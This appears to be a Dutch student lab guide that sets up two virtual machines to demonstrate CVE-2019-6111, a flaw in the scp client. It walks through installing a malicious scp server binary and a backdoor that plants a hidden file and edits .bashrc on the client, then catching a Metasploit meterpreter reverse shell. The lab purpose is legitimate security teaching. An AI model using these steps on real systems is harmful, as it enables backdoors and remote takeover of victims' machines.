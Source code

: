 # User Deployment Guide - CVE-2019-6111

## Inhoudsopgave

1.  [Vereisten](#vereisten)
2.  [Instellen Omgeving](#instellen-omgeving)
    1.  [Debian (Jessie) Machine](#debian-jessie-machine)
    2.  [Kali Linux (Rolling) Machine](#kali-linux-rolling-machine)
3.  [CVE-2019-6111](#cve-2019-6111)
4.  [Metasploit](#metasploit)

<div class="page"/>

# Vereisten<a name="vereisten"></a>

-   [VirtualBox](https://www.virtualbox.org/wiki/Downloads)
-   [Bash](https://www.gnu.org/software/bash/) of [PowerShell](https://docs.microsoft.com/en-us/powershell/scripting/install/installing-powershell?view=powershell-7.1)
-   [Git](https://git-scm.com/downloads)
-   [Debian (Jessie) vdi](https://www.osboxes.org/debian/#debian-8-jessie-vbox)
-   [Kali Linux (Rolling) vdi](https://www.osboxes.org/kali-linux/#kali-rolling-vbox)

<div class="page"/>

# Instellen Omgeving<a name="instellen-omgeving"></a>

Om deze exploit te kunnen uitvoeren, moeten we eerst een omgeving opzetten. Hiervoor hebben we twee virtuele machines nodig: een Debian (Jessie) machine en een Kali Linux (Rolling) machine. De Debian machine zal de machine zijn die we willen aanvallen, en de Kali Linux machine zal de machine zijn die we gebruiken om de aanval uit te voeren.

## Debian (Jessie) Machine<a name="debian-jessie-machine"></a>

Om deze virtuele machine te installeren, hebben we een script geschreven dat de installatie automatisch uitvoert. Dit script is te vinden in de map `src/debian` van deze repository. Om het script uit te voeren, moet je het volgende commando uitvoeren:

```console
$ bash unattended_install.sh
```

of

```console
PS1> .\unattended_install.ps1
```

## Kali Linux (Rolling) Machine<a name="kali-linux-rolling-machine"></a>

Om deze virtuele machine te installeren, hebben we een script geschreven dat de installatie automatisch uitvoert. Dit script is te vinden in de map `src/kali` van deze repository. Om het script uit te voeren, moet je het volgende commando uitvoeren:

```console
$ bash unattended_install.sh
```

of

```console
PS1> .\unattended_install.ps1
```

Deze exploit vereist dat de Debian client een bestand naar keuze download van een "bad" scp server. De scp server is in dit geval de Kali virtual machine. Om van onze Kali server een "bad" scp server te maken, moeten we een custom `scp` binary installeren. Deze binary is te vinden in de map `src/kali/provision/golang/bin` van deze repository. Om deze binary te installeren, moet je het volgende commando uitvoeren:

**Opmerking**: Het is belangrijk dat je dit commando uitvoert als root.

```console
# git clone https://github.com/AntonVanAssche/CSV-NPE2223.git
# cp -r CSV-NPE2223/src/kali/provision/golang/bin/bad_scp /usr/bin/scp
```

Ook zal men de backdoor in de `/tmp` map moeten plaatsen. Deze backdoor is te vinden in de map `src/kali/provision/backdoor` van deze repository. Om deze backdoor te installeren, moet je het volgende commando uitvoeren:

**Opmerking**: Het is belangrijk dat je dit commando uitvoert als root.

```console
# cp -r CSV-NPE2223/src/kali/provision/backdoor /tmp/backdoor
```

<div class="page"/>

# CVE-2019-6111<a name="cve-2019-6111"></a>

Het uitvoeren van de exploit is vrij eenvoudig. We moeten enkel een bestand downloaden van de "bad" scp server. Dit bestand kan eender welk bestand zijn. In dit voorbeeld gebruiken we het bestand `testfile.txt`. Om dit bestand te downloaden, moeten we het volgende commando uitvoeren:

```console
$ scp 192.168.0.121:testfile.txt .
```

Na het uitvoeren zal men zien dat er inderdaad een bestand genaamd `testfile.txt` is gedownload. Maar wanneer we `ls -a` doen zal men al snel zien dat er ook een bestand `.backdoor` is gedownload en de `.bashrc` file is aangepast.

<div class="page"/>

# Metasploit<a name="metasploit"></a>

Na dat de backdoor op de Debian client is gedownload, kunnen we een reverse shell opzetten. Hiervoor gebruiken we de Metasploit framework. Om de Metasploit framework te starten, moeten we het volgende commando uitvoeren:

**Opmerking**: Het is belangrijk dat je dit commando uitvoert als root.

```console
$ msfconsole -q -x "handler -p linux/aarch64/meterpreter/reverse_tcp -P 4444 -H 192.168.0.121"
```

Van zodra de gebruiker een nieuwe Bash shell opent, zal dit gedetecteerd worden door de Metasploit. Vervolgens kan men dan de sessie starten door het volgende commando uit te voeren:

```console
msf6 > sessions 1
```

Om een reverse shell op te zetten, moeten we dan simpeleweg het volgende commando uitvoeren:

```console
meterpreter > shell
```

<div class="page"/>
